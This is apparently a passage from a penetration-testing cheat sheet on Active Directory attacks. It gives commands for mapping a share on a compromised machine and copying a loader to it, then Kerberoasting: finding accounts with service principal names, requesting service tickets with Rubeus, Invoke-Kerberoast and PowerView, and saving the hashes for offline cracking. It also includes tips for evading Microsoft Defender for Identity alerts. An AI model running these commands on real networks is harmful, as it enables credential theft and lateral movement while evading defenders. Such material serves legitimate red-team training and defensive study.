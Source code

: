Map a remote folder from compromised machine to a letter drive on your local machine, to copy files across:  

```powershell
# map the drive
net use x: \\<remote-hostname>\C$\Users\Public /user:<remote-hostname>\<Username> <password>
# copy files local to remote
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
# remove the share:
net use x: /d
```

## Domain Privesc - Kerberos

**Kerberoasting:**  

Find kerberoastable users:  

```powershell
# ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
# PowerView
Get-DomainUser –SPN
# LOLbin
setspn.exe -Q */*
```

Request TGS tickets using Rubeus (https://github.com/GhostPack/Rubeus):  
(These will trigger MDI alerts if the targeted accounts are set to support AES encryption)  

```powershell
# [!] Do not use rubeus inside invisi-shell

# Use Rubeus to list Kerberoast stats
Rubeus.exe kerberoast /stats
# Use Rubeus to request a TGS
Rubeus.exe kerberoast /user:serviceaccount /simple

# To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17
# stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec

# Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

Request TGS tickets using Invoke-Kerberoast.ps1 (https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1):  

```powershell
Invoke-Kerberoast -Identity serviceaccount
```

Request TGS tickets with PowerView  

```
Request-SPNTicket "<spn>" -Format Hashcat # or john
```
